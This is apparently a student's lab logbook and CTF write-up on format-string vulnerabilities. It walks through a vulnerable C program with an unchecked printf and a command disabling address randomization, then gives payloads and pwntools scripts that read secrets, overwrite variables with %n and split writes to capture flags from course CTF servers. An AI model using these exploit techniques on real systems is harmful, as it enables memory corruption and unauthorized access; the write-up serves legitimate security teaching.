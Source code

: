 # Format sting

### Preparation
* Shutting down countermeasures
we'll turn off the address randomization in order to make it easier to guess the heap and stack address.
```
$ sudo sysctl -w kernel.randomize_va_space=0
```

### Vulnerable file

```C
unsigned int target = 0x11223344;
char *secret = "A secret message\n";
void myprintf(char *msg) {
    // This line has a format-string vulnerability
    printf(msg);
}
int main(int argc, char **argv) {
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Input size: %d\n", length);
    myprintf(buf);
    return 1;
}
```
This file is clearly unsafe since the input from the user read in int main() is passed to a function which then calls printf, without having been checked.

### Environment Setup
* To simplify the attack, we'll turn off user address space randomization **to a function which then calls printf**.
* Our program will be compiled into both 64-bit and 32-bit (-m32 option).
* The program will also need to be compiled with the **-z execstack** option, in order, to make the stack executable.


## Task 1

Firstly we send a benign message to the server running in the docker container on 10.9.0.5
with the command:
```
$ echo hello | nc 10.9.0.5 9090
```
result:
![Alt text](images/logbook7/task1-benign.png)

We then were asked to crash the program which we achieved using the following input:

```
AAAA%n
```
This writes 4 to the address 0x41414141 which isn't a valid memory address, whcich ends up crashing the program

![Alt text](images/logbook7/task1-crash.png)


## Task 2 a

We concluded we need 64 %x to get the server to start printing the beggining of the user input, we checked this by sending AAAA as the 4 first bytes in our input followed by 64 %x.

![Alt text](images/logbook7/task2-a.png)

## Task 2 b

To print the string of the secret value given its address = 0x080b4008, we need to use the %s specifier, however we need to specify the address we want the %s to read from. 
To do so, we wrote the address of the variable in little endian followed by %64$s which reads a string in the address present in the 64th position in stack (our input)

``` py
content = (0x080b4008).to_bytes(4,byteorder='little') + b"%64$s"
```

![Alt text](images/logbook7/task2-b.png)


## Task 3 a

To change the value of a variable using a format string vulnerabilities we need to use the %n which writes the number of characters written so far in the specified address. We used the same technique we used in task 2b

```py
content = (0x080e5068).to_bytes(4,byteorder='little') + b"%64$n"
```

![Alt text](images/logbook7/task3-a.png)

## Task 3 b

This task is the same as the task 3b, however we need to write 0x5000 to the address of the target variable, which means we need to write 20480 characters before calling %n. We can achieve this using %20476x which will write 20476 charcters in the user input.
These amount of characters is enough because we've already written 4 characters when we wrote the address we want to write to.

```py
content = (0x080e5068).to_bytes(4,byteorder='little') +b"%20476x" + b"%64$n"
```

![Alt text](images/logbook7/task3-b.png)





# CTF 7 Format Strings

## Desafio 1

In  the port 4004 there was a C program running, with a format string vulnerability present in the line 27:
```C
printf(buffer)```

The program had the following protections:

-> NX: Cannot execute in the Stack
-> Canarys: Cannot overflow buffers

```
checksec program
  Arch:     i386-32-little
  RELRO:    Partial RELRO
  Stack:    Canary found
  NX:       NX enabled
  PIE:      No PIE (0x8048000) ```


Apart from this we also foundout the Binary position is absolute (no PIE) and the binary is 32-bit.


The vulnerable file loads the global variable flag with the contents of flag.txt at the beggining of program. Therefore to find the flag all we need to do is print the content of flag.

First we used gdb to get the flag variable address.


![Alt text](images/logbook7/ctf1_gdb.png)

After getting the address 0x804c060, the exploit consists in getting the string value in that address, which can be achieved with the format specifier %s.


```py
p = remote("ctf-fsi.fe.up.pt", 4004)
p.recvuntil(b"got:")
p.sendline(p32(0x804c060) + b"%s")
p.interactive()
```

![Alt text](images/logbook7/ctf1_res.png)
```
flag{669369e1c6689eb5de7c38c2feef0c95}
```

## Desafio 2

For this challenge, the checkseck result is the same as the one for challenge 1, however this time the flag is not loaded into memory. Instead, if the key value is 0xBEEF a shell will be launched, which then can be used to read the contents of the flag.txt file in the same directory.

We start by using gdb to get the address of the key global variable.

![Alt text](images/logbook7/ctf2_gdb.png)
0x804b324

Then we need to write to this address using the %n format specifier.
This specifier writes the number of bytes written so far into the next address in the stack.
Therefore we calculated the value in decimal we need to write besides the 4 bytes we had already written in the address:
```
0xBEEF - 4 = 
 48879 - 4 = 48875
```
  
Then we just needed to put everything together in the exploit.

```py
r = remote('ctf-fsi.fe.up.pt', 4005)
r.recvuntil(b"here...")
r.sendline(p32(0x804b324) +b"%1$.48875x" + b"%n")
r.interactive()
```
![Alt text](images/logbook7/ctf2_res.png)
```
flag{aade366f8dc239bab6f89db1f010b512}
```



## Desafio 3

Challenge 3's source code was identical to the source code in challenge number 2. However this time the address of the key global variable was 0x804b320.

![Alt text](images/logbook7/ctf3_gdb.png)

This is doesn't allow to use the same approach we used in challenge 2 as \x20 is the ascii representation of the space character which messes with the address we want to write to.

Therefore, we tried to write 0xBEEF00 to the address immediately before: 0x804b31F.

However the decimal representation of 0xBEEF00 is 12513024, which would require us to write that amount of characters in the input, and consequently get a connection timeout before we could print the contents of flag.txt in the terminal.

In order to go around this obstacle we decided to split the writing of the variable into 2.

0x804b321 -> 0xBE = 190
0x804b31F -> 0xEF00 = 61184

This approach drastically reduces the amount of characters we need to write while getting the same result.

This led to the exploit:

```py
r = remote('ctf-fsi.fe.up.pt', 4008)
r.recvuntil(b"here...")
r.sendline(p32(0x804b321) + p32(0x804b31F) + b"%182x" + b"%1$hhn" + b"%60994x" + b"%2$hn")
r.interactive()
```

![Alt text](images/logbook7/ctf3_res.png)
```
flag{8e9f922b23b061c32d1b2802bd363057}
```





